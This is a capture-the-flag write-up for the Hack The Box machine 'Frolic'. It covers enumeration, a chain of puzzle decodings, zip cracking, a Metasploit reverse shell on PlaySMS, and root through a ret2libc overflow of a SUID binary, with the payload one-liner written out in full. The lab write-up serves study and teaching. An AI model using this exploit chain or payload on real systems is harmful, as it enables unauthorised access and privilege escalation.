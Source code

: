 # FROLIC
## Info

IP Address: 10.10.10.111  
OS: Linux  
Difficulty: Medium  

## System Enumeration

### NMAP
![Nmap](boxImages/Frolic/frolicnmap.png "NMAP")

We see two different ports that we can access, `1880` and `9999`

### Port 1880: Node-RED service
![Coloured Service](boxImages/Frolic/frolicRED.png "RED Service")

### Port 9999: nginx service
![nginx](boxImages/Frolic/frolicnginx.png "NGINX")

## Enumerating Port 9999 with Dirbuster

I used the dirb wordlists `big.txt`
![dirbuster](boxImages/Frolic/frolicdirbuster.png "Dirbuster")

Looking up all areas with response code 200, which we can access without restrictions

### /admin/

#### Source Code 

##### /login.js/

username: admin
password: superduperlooperpassword_lol

```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.?
!.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? .....
..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?...
..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !....
..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!!
!!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?!
!.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!!
!!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!!
!!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?..
..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?. 
```

A quick lookup shows that this is the Ook! language.
Using an online decoder, we achieve 
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
Opening up `http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS` , we get:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3
h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA 
```

This looks like base64 encoding. Using `https://www.freeformatter.com/base64-encoder.html` and downloading the resulting zip, we see that its locked. Using fcrackzip to crack zip passwords, we get

![Password ZIP](boxImages/Frolic/froliczip.png "Locked Zip")
![Using FCrackZip](boxImages/Frolic/frolicfcrack.png "FCrackZip")

Opening up `index.php`, we get
```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b797367
4b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c53
30674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c543474
4c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046
302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```
which seems to be hex code, translating hex to ascii
```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```
which is easily identified as base64, decoding this
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```
A quick google search shows that this is brainfuck, decoding which gets us a string `idkwhatispass`

This string did not work as password on the `RED` service so I tried enumerating again with a different wordlist, which gave me a new directory

### /playsms/
![PlaySMS](boxImages/Frolic/frolicplaysms.png "PlaySMS")
Using the username `admin` and password `idkwhatispass`, we logged in

![Admin Panel](boxImages/Frolic/frolicplaysmslogin.png "LoggedIn Playsms")

Using metasploit, I was able to gain a reverse shell through playsms service

![MSFConsole](boxImages/Frolic/frolicplaysmsexploit.png "Metasploit")
![Rev Shell Obtained](boxImages/Frolic/frolicrshell.png "Reverse Shell")

## User Exposed
![User Exposed](boxImages/Frolic/frolicuser.png "User")

Finally got user

## Privilege Escalation

Following simple steps to check for escalation, I first check for SUID binaries in the system which can be exploited to escalate privileges:

![./ROP Found](boxImages/Frolic/frolicsuid.png "SUID rop found")

Finding `rop` means we can exploit it using ret2lib attack and gain root. Downloaded the binary to my local machine(by using the `download <file>` command in meterpreter) to debug it using gdb-peda.

### Using gdb-peda
Step 1: Creating a pattern of 100 characters
      `pattern_create 100`
      `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL`
Step 2: Finding buffer limit using pattern offset.

![pattern_offset](boxImages/Frolic/frolicpatternfound.png "Finding offset")

### Using libc-search

Step 1: Use `ldd rop` to find what library its using  
Step 2: Add gcc library to $PATH, using `export PATH = /usr/lib/gcc/i686-linux-gnu/:/sbin:/bin:/usr/sbin:/usr/bin`  
Step 3: Upload libc-search.c to server (https://0xdeadbeef.info/code/libc-search.c)  
Step 4: `gcc libc-search.c -o libc-search -lc -ldl`  
Step 5: Search for system, exit using -s   
Step 6: Search for /bin/sh using -p (set libbase using -b)  

![LIBC-Search](boxImages/Frolic/froliclibc.png "Libc Enumeration")

### Creating Payload
The addresses are converted to little endian.

![Address List](boxImages/Frolic/frolicadd.png "Address List")

Now, we simply create a python one-line payload to pass as our argument to the `rop` binary.
```
python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"'
```
### Root Obtained

Running
```
./rop $(python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"')
```
We obtain root

![Pwnage](boxImages/Frolic/frolicroot.png "Rooted")

